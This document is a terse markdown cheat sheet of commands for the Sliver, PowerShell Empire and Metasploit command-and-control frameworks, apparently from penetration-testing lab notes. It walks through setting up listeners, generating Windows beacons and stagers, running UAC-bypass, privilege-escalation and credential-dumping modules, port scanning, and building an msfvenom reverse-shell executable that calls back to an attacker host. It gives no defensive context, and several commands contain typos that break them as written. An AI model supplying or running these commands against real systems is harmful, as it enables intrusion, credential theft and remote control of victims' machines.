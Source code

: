 # Sliver
## Multiplayer
### Sliver-Server
```bash
./sliver-server operator --name name --lhost 1.2.3.4
```
### Sliver - Create new player
```bash
new-player  -n name -l 1.2.3.4 -s /tmp/
### Sliver-Client
```basg
./sliver-client import name_1.2.3.4.cfg
```
## start a listener  - https
```bash
https
```
## Generate a beacon
```bash
generate --os windows --http 1.2.3.4 --skip-symbols first
```
## view implants
```bash
implants
```
## view and enter session
```bash
sessions
use 1
```
## Execute-assembly :D
```bash
execute-assemnly /home/user/labs/SharpWMI.exe action=Loggedn
```
# Powershell Empire
## Start Server
```bash
./ps-empire server
```
## Start client
```bash
./ps-empire client
```
## start listener
```bash
uselistener <http>
```
### Options
```bash
set DefaultDelay 1
set port 9999
set host http://<IP>:9999
```
### Verify Options
```bash
listeners
```
## Execute
```bash
execute
```
## create agent - bat
```bash
usestager windows/launcher_bat
```
## create agent - xml
```bash
usestager windows/launcher_xml
```
### options
```bash
set listener http
```
### Gerate agent
```bash
generate
```
## View active sessions "Agents"
```bash
agents
```
## enter session
```bash
interact agent1
```
## usemodule
### UAC Bypass
```bash
usemodule /powershell/privesc/ask
execute
```
#### connect to c2
```bash
set Listener http
execute
```
### winenum
```bash
usemodule powershell/situational_awareness/winenum
execute
```
### Privesc all checks
```bash
usemodule /powershell/privesc/powerup/allchecks
execute
```
### Powerdump
```bash
usemodule /powershell/credentials/powerdump
execute
```
#### see results
```bash
View <task_#>
```

## portscan
### Check Network
```bash
shell ipconfig
```
### Portscan
```bash
usemodule powershell/situational_awareness/network/portscan
```
#### view open ports for a host
```bash
set hosts 10.10.10.11
execute
```

# Metasploit
## Generate an exe with MSFVenom
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```
## Start a listener with MSFramework
```bash
use multi/handler
set payload windows/x64/shell/reverse_tcp
set LHOST 192.168.119.2
set LPORT 443
```